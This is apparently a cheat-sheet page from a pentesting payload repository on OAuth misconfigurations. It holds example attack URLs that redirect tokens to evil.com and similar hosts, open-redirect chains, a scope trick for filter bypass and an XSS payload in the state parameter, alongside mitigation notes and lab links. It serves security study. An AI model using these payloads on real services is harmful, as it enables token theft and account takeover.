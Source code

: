 # OAuth Misconfiguration

> OAuth is a widely-used authorization framework that allows third-party applications to access user data without exposing user credentials. However, improper configuration and implementation of OAuth can lead to severe security vulnerabilities. This document explores common OAuth misconfigurations, potential attack vectors, and best practices for mitigating these risks. 


## Summary

- [Stealing OAuth Token via referer](#stealing-oauth-token-via-referer)
- [Grabbing OAuth Token via redirect_uri](#grabbing-oauth-token-via-redirect---uri)
- [Executing XSS via redirect_uri](#executing-xss-via-redirect---uri)
- [OAuth Private Key Disclosure](#oauth-private-key-disclosure)
- [Authorization Code Rule Violation](#authorization-code-rule-violation)
- [Cross-Site Request Forgery](#cross-site-request-forgery)
- [Labs](#labs)
- [References](#references)


## Stealing OAuth Token via referer

> Do you have HTML injection but can't get XSS? Are there any OAuth implementations on the site? If so, setup an img tag to your server and see if there's a way to get the victim there (redirect, etc.) after login to steal OAuth tokens via referer - [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544)


## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```


## Executing XSS via redirect_uri

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```


## OAuth Private Key Disclosure

Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.


## Authorization Code Rule Violation

> The client MUST NOT use the authorization code  more than once.  

If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.


## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (`https://example.com/callback?code=AUTHORIZATION_CODE`). This URL can be used in CSRF attacks.

> The client MUST implement CSRF protection for its redirection URI. This is typically accomplished by requiring any request sent to the redirection URI endpoint to include a value that binds the request to the user-agent's authenticated state. The client SHOULD utilize the "state" request parameter to deliver this value to the authorization server when making an authorization request.


## Labs

* [PortSwigger - Authentication bypass via OAuth implicit flow](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)
* [PortSwigger - Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)
* [PortSwigger - OAuth account hijacking via redirect_uri](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)
* [PortSwigger - Stealing OAuth access tokens via a proxy page](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)
* [PortSwigger - Stealing OAuth access tokens via an open redirect](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)


## References

- [All your Paypal OAuth tokens belong to me - asanso - November 28, 2016](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html) 
- [OAuth 2 - How I have hacked Facebook again (..and would have stolen a valid access token) - asanso - April 8, 2014](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
- [How I hacked Github again - Egor Homakov - February 7, 2014](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
- [How Microsoft is giving your data to Facebook… and everyone else - Andris Atteka - September 16, 2014](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)
- [Bypassing Google Authentication on Periscope's Administration Panel - Jack Whitton - July 20, 2015](https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/)